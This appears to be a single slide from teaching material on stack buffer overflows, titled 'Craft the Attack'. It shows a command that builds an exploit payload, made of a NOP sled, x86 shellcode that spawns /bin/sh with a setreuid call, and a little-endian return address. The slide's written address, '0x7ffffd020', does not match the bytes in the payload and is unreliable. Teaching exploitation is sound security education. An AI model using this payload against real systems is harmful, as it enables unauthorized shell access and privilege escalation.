

Craft the Attack
run $(python –c “print(‘\x90’*214+

‘\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68’

’+’\x20\xd0\xff\xff’)”)

This is the starting address of thebuffer (0x7ffffd020) but in reverse because that is modern computers use the little endian notation.